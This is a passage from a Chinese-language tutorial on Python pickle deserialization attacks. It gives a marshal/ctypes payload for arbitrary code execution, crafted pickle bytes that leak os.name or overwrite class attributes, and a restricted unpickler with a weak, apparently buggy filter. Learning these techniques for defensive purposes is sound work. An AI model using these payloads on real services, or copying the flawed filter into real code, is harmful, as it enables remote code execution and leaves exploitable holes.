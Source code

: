 ```Python

payload="""ctypes
FunctionType
(cmarshal
loads
(S'%s'
tRc__builtin__
globals
(tRS''
tR(tR."""%marshal.dumps(foo.func_code).encode('string-escape')

pickle.loads(payload)
```

### ④导致变量引入

将类的例子序列化的结果改为如下,先往os设置一个name
```python
\x80\x03c__main__\ntest\nq\x00)\x81q\x01}q\x02(X\x04\x00\x00\x00nameq\x03cos\nname\nq\x04X\x03\x00\x00\x00ageq\x05M\x0f'ub.
```
a.name 成了 os.name的值
[![JAFFbt.png](https://s1.ax1x.com/2020/04/16/JAFFbt.png)](https://imgchr.com/i/JAFFbt)

可以获取一些敏感信息

### ⑤导致属性增加 也可以覆盖原值

通过GLOBAL指令引入的变量，可以看作是原变量的引用。我们在栈上修改它的值，会导致原变量也被修改！
一开始举得例子里我们把一个dict压进栈，内容是{'name': 'test', 'age': 9999}
执行BUILD指令，会导致改写 \_\_main__.test.name和 \_\_main__.test.age ，test.name和test.grade已经改成我们想要的内容

因此可以伪造任意class的属性

```python
\x80\x03c__main__\ntest\nq\x00)\x81q\x01}q\x02(X\x04\x00\x00\x00nameq\x03X\x04\x00\x00\x00testq\x04X\x03\x00\x00\x00ageq\x05M\x0f'q\x06X\x04\x00\x00\x00aaaaq\x07X\x04\x00\x00\x00ookkub.
```
[![JAM14s.png](https://s1.ax1x.com/2020/04/16/JAM14s.png)](https://imgchr.com/i/JAM14s)
[![JAmZeH.png](https://s1.ax1x.com/2020/04/16/JAmZeH.png)](https://imgchr.com/i/JAmZeH)

### ⑥无R指令RCE
```python
class RestrictedUnpickler(pickle.Unpickler):
    safe_builtins = []
    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if "R" not in module and name in safe_builtins:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))
def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()
```
